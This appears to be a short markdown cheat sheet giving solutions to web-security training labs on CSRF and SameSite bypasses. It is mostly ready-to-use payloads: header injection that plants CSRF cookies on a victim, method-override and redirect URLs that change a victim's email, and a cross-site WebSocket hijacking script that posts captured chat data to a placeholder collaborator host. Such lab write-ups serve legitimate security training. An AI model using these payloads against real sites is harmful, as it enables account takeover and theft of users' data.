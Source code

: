 ### 3. CSRF where token is not tied to user session
```
Before using CSRF token in request, check it in HTML code and perform a CSRF attack with it.
```

### 4. CSRF where token is tied to non-session cookie  
>Observe LastSearchTerm in Set-Cookie header. Change it to /?search=w;%0aSet-Cookie:+csrfKey=YOUR_KEY and create the next payload to set this key to victim:
```
<script>
location="https://xxx.web-security-academy.net/?search=w;%0aSet-Cookie:+csrfKey=YOUR_KEY"
</script>
```
>Now simply generate CSRF PoC and send it.

### 5. CSRF where token is duplicated in cookie  
>Same as previous  
```
/?search=w%0d%0aSet-Cookie:%20csrf=kek%3b%20SameSite=None
```

### 6. SameSite Lax bypass via method override
Change request method to GET and add _method=POST parameter:
```
/my-account/change-email?email=ww%40gmail.com&_method=POST
```

### 7. SameSite Strict bypass via client-side redirect
```
/post/comment/confirmation?postId=7../../../my-account/change-email?email=ww%40gmail.com%26submit=1
```

### 8. SameSite Strict bypass via sibling domain
>Observe there is cms-xxx.web-security-academy.net domain. Craft the next payload and full URL-encode it.
```
<script>
    var ws = new WebSocket('wss://your-websocket-url/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
>Create the second payload and send it to victim:
```
<script>
location="https://cms-xxx.web-security-academy.net/login?username=URL-ENCODED-PAYLOAD&password=peter"
</script>
```
